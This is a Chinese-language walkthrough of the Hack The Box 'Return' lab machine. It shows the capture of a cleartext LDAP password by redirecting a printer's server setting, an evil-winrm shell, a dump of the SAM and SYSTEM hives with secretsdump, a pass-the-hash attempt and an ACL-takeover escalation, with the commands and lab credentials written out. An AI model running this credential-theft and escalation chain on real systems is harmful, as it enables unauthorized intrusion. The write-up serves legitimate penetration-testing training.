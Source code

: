 ```yaml
---
description: Easy / LDAP明文传输 / SeBackupPrivilege提权
---
```


# ✔️ Return

## 建立立足点

### 信息收集

* 使用Nmap对目标系统进行开放端口扫描：

```bash
nmap -sC -sV -p- -oA return 10.129.95.241 --open
```

<figure><img src="../../.gitbook/assets/1 (32).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/2 (30).png" alt=""><figcaption></figcaption></figure>

* 根据Nmap的输出信息发现目标系统开放了80端口，登录查看是一个打印机的管理员界面：

<figure><img src="../../.gitbook/assets/3 (27).png" alt=""><figcaption></figcaption></figure>

* 使用dirsearch没有找出来什么特别的隐藏文件/目录，在查看settings.php页面发现了域名、端口还有用户名和密码，其中密码部分无法查看：

<figure><img src="../../.gitbook/assets/4 (29).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/5 (29).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/6 (29).png" alt=""><figcaption></figcaption></figure>

* 将找到的域名和之前Nmap输出中的域名添加到hosts文件里：

<figure><img src="../../.gitbook/assets/7 (29).png" alt=""><figcaption></figcaption></figure>

* 先尝试使用不同工具进行匿名登录SMB均无收获，enum4linux信息收集也没有什么收获：

<figure><img src="../../.gitbook/assets/8 (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/9 (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/10 (2) (1).png" alt=""><figcaption></figcaption></figure>

* 回到打印机settings的界面，它设置的端口389是LDAP协议，该打印机是通过LDAP连接到目标域进行身份验证的，这意味着用户svc-printer是一个域内用户账户，且LDAP是明文传输，因此当我们修改目标服务器地址为Kali本机地址时，并在本机做好监听后，即可读取到传输的明文密码内容：

<figure><img src="../../.gitbook/assets/11 (2) (1).png" alt=""><figcaption></figcaption></figure>

* 此时已获得一个有效凭证：<mark style="color:red;">**svc-printer:1edFg43012!!**</mark>&#x20;

### GET SHELL

* 通常当有了一个有效凭证后就可以尝试用evil-winrm来获取shell了（虽然并不总是管用）：

```bash
evil-winrm -i return.local -u svc-printer -p '1edFg43012!!'
```

<figure><img src="../../.gitbook/assets/12 (2) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/13 (2) (1) (1).png" alt=""><figcaption></figcaption></figure>

## 权限提升

### 本地信息收集

* 上传winPEAS进行信息收集：

```bash
# evil-winrm
upload /root/Documents/HTB-AD/return/info/winPEASx64.exe
.\winPEASx64.exe
```

<figure><img src="../../.gitbook/assets/14 (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* 在winPEAS的输出信息中，找到了当前账户的所有的权限中有sebackupprivilege权限，这意味着当前用户在目标系统中有了读取文件和数据的能力。因此，决定从目标系统的SAM中提取高权限用户的哈希，并以此作为登录的凭证：

<figure><img src="../../.gitbook/assets/15 (2).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/16 (2).png" alt=""><figcaption></figcaption></figure>

### ROOT

* 创建一个/temp目录，并将HKLM的sam.hive和system.hive复制到 /temp目录下并下载：

```bash
# evil-winrm
mkdir C:\temp
reg save hklm\sam C:\temp\sam.hive
reg save hklm\system C:\temp\system.hive
```

<figure><img src="../../.gitbook/assets/17 (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/18 (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/19 (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* 再使用impacket-secretsdump获取NTLM哈希：

```bash
impacket-secretsdump -sam sam.hive -system system.hive LOCAL
```

<figure><img src="../../.gitbook/assets/20 (1) (1).png" alt=""><figcaption></figcaption></figure>

* 最后使用获取到的Administrator账户的哈希，利用evil-winrm进行登录，以为是网络原因登录不成功，但换了时间尝试多次发现该账户应该是不能用hash进行登录：

```bash
evil-winrm -i return.local -u "Administrator" -H "34386a771aaca697f447754e4863d38a"
```

<figure><img src="../../.gitbook/assets/21 (14).png" alt=""><figcaption></figcaption></figure>

* 因此重新搜索关于SeBackupPrivilege的漏洞利用脚本，发现Acl-FullControl.ps1脚本适用于SeBackupPrivilege提权，它是在当前用户的权限下，修改指定路径的访问控制列表(ACL)，给低权限用户添加高权限，赋予它完全的控制权，从而达到提权的效果。
* 该命令将当前的svc-printer用户的访问控制权指向到c:\users\administrator\，执行成功的话就意味着我们对这个目录及其内容有完全控制权：

```powershell
Import-module .\Acl-FullControl.ps1; Acl-FullControl -user svc-printer -path c:\users\administrator\
```

<figure><img src="../../.gitbook/assets/22 (14).png" alt=""><figcaption></figcaption></figure>

* 上传脚本，并执行：

<figure><img src="../../.gitbook/assets/23 (14).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/24 (12).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/25 (11).png" alt=""><figcaption></figcaption></figure>

{% hint style="info" %}
Get Shell阶段除了常规的枚举之外，还应注意那些最直接的信息。提权阶段锁定漏洞时，有时手动枚举可能会比工具枚举来的更快一些。特别是网络状况不太好时，传输文件会极其的慢。
{% endhint %}
